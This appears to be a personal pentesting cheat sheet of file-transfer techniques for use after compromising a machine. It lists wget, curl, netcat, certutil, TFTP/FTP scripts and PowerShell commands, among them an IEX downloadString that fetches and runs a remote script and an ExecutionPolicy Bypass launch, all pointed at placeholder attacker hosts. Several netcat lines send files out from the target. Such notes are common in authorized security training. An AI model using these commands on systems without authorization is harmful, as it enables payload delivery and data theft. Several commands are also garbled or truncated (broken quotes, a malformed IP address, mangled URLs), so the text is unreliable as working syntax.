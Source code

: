 ```yaml
---
tags: 🔻 🔻/File_Transfer
aliases: Hacking Notes
---
```


\# In Kali  
python -m SimpleHTTPServer 80  
  
\# In reverse shell - Linux  
wget x.x.x.x  
  
\# In reverse shell - Windows  
powershell -c "(new-object System.Net.WebClient). DownloadFile (*httpipaddressandport*)


# Linux

python -m SimpleHTTPServer 9999  
  
  
#wget  
wget x.x.x.x  
  
#curl  
curl -O ip/file.txt
  
#ncat  
#attacking machine  
nc -lvp 4444 < file  
  
#target machine  
nc x.x.x.x  
  
  
#php  
echo `<?php file\_put\_contents('nameOfFile', fopen('http://x.x.x.x`  
  
  
#tftp  
 tftp x.x.x.x  
tftp> get myfile.txt  
tftp 191.168.0.x.x.x.x  
  
  
#scp  
 Copy a file:  
scp /path/to/source/file.ext username@x.x.x.x  
  
 Copy a directory:  
scp -r /path/to/source/dir username@x.x.x.x  
  
  
#python  
Python SimpleHTTPServer  
  
on Attacker  
python -m SimpleHTTPServer  
  
on target  
wget *attackerip*:8000/filename  
  
  
\------------------------------  
  
Apache  
  
#on Attacker  
cp filetosend.txt /var/www/html  
service apache2 start  
  
#on target  
wget *httpattackersip/file*
curl *httpattackersip/file* \> file  
fetch *httpattackersip/file* \# on BSD  
  
\----------------------------------  
  
#netcat (From Target to Kali)  
  
\# Listen on Kali  
nc -lvp 4444 > file  
  
\# Send from Target machine  
nc <kali\_ip> 4444 < file  
  
\-----------------  
  
  
#netcat (From Kali to Target)  
  
\# on target, wait for the file  
nc -nvlp 55555 > file  
  
\# on kali, push the file  
nc $victimip 55555 < file  
  
  
\----------------------  
  
Extra:  
To send the executable file to your machine:  
  
base64 executable  
\# copy the output  
\# paste it in a file called file.txt  
\# decode it and create the executable  
base64 -d file.txt > executable



# windows

[https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)  
[https://blog.netspi.com/15-ways-to-download-a-file/](https://blog.netspi.com/15-ways-to-download-a-file/)  
  
certutil -urlcache -f *httpattackerip* 
  
  
#Powershell  
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = http*attackerip*
echo $file = "output-file.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1  
  
  
  
#powershell  
powershell -c "(new-object System.Net.WebClient).DownloadFile(*attackerip*)x.x.x.x  
powershell -c "Invoke-WebRequest -Uri [http://](http://10.10.14.23/bfill.exe)x.x.x.x  
powershell "IEX(New Object Net.WebClient).downloadString('http:*targetip*/file.ps1')"  
  
  
  
#FTP  
echo open 21> ftp.txt  
echo USER asshat>> ftp.txt  
echo mysecretpassword>> ftp.txt  
echo bin>> ftp.txt  
echo GET wget.exe>> ftp.txt  
echo bye>> ftp.txt  
  
ftp -v -n -s:ftp.txt  
  
#debug  
wine exe2bat.exe nc.exe nc.txt  
  
  
  
  
\--------------------------------------  
TFTP  
\# Windows XP and Win 2003 contain tftp client. Windows 7 do not by default  
\# tfpt clients are usually non-interactive, so they could work through an obtained shell  
  
atftpd --daemon --port 69 /tftp  
Windows> tftp -i x.x.x.x  
  
\--------------------------------------  
  
#FTP P (pyftpdlib client on Kali)  
\# Ftp is generally installed on Windows machines  
\# To make it interactive, use -s option  
  
\# On Kali install a ftp client and set a username/password  
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21  
  
\# on Windows  
ftp *attackerip*
\> binary  
\> get exploit.exe  
  
\-------------------------------------------  
  
#FTP (pureftpd client on Kali)  
  
\# on Kali  
  
\# install ftp client  
apt-get install pure-ftpd  
  
\# create a group  
groupadd ftpgroup  
  
\# add a user  
useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
  
\# Create a directory for your ftp-files (you can also specify a specific user e.g.: /root/ftphome/bob).  
mkdir /root/ftphome  
  
\# Create a ftp-user, in our example "bob" (again you can set "-d /root/ftphome/bob/" if you wish).  
pure-pw useradd bob -u ftpuser -g ftpgroup -d /root/ftphome/  
  
\# Update the ftp database after adding our new user.  
pure-pw mkdb  
  
\# change ownership of the specified ftp directory (and all it's sub-direcotries)  
chown -R ftpuser:ftpgroup /root/ftphome  
  
\# restart Pure-FTPD  
/etc/init.d/pure-ftpd restart  
  
  
\# On Windows  
echo open *attackerip* 21> ftp.txt  
echo USER username password >> ftp.txt  
echo bin >> ftp.txt  
echo GET evil.exe >> ftp.txt  
echo bye >> ftp.txt  
ftp -s:ftp.txt  
  
\--------------------------------------  
  
#Powershell  
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "[http:*attackerip*/powerup.ps1"] \>>wget.ps1  
echo $file = "powerup.ps1" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
  
\--------------------------------------  
\# Powershell download a file  
#Powershell  "IEX(New Object Net.WebClient).downloadString('[http://<targetip>/file.ps1')"](http://%3Ctargetip%3E/file.ps1'))
	
	